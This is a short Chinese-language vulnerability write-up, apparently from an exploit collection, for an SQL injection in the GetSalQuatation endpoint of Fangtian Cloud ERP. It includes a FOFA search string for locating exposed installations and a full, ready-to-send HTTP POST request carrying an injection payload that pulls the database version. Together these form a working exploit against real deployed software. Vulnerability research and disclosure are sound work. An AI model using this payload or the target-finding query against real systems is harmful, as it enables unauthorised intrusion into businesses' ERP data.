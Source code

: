 # 方天云ERP系统GetSalQuatation存在SQL注入漏洞

# 一、漏洞简介
方天软件以云ERP+MES产品为核心，整合设备层的工业数据，提供软硬件智能+整合方案服务，赋能数字工厂新智造。在模具制造、五金机械、塑胶成型、电子组装等行业成效显著，包括财富500强的企业也正在通过方天软件的综合管理方案而持续获益。方天云ERP系统GetSalQuatation存在SQL注入漏洞

# 二、影响版本
+ 方天云ERP

# 三、资产测绘
+ fofa`body="AjaxMethods.asmx/GetCompanyItem"`
+ 特征

![1721917258848-b78e31a2-e470-4ebe-99f8-ec99e64af05c.png](./img/yhcb6CmmIQ6EhV3S/1721917258848-b78e31a2-e470-4ebe-99f8-ec99e64af05c-958500.png)

# 四、漏洞复现
```http
POST /AjaxMethods.asmx/GetSalQuatation HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Connection: close
 
{ID:"(SELECT CHAR(113)+CHAR(120)+CHAR(122)+CHAR(112)+CHAR(113)+(CASE WHEN (8725=8725) THEN @@VERSION ELSE CHAR(48) END)+CHAR(113)+CHAR(122)+CHAR(118)+CHAR(106)+CHAR(113))"}
```

![1722875878230-07abf756-4be9-48ca-bc05-da4b330c98b3.png](./img/yhcb6CmmIQ6EhV3S/1722875878230-07abf756-4be9-48ca-bc05-da4b330c98b3-789078.png)



> 更新: 2024-08-12 17:29:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lgp6fcox304sdet3>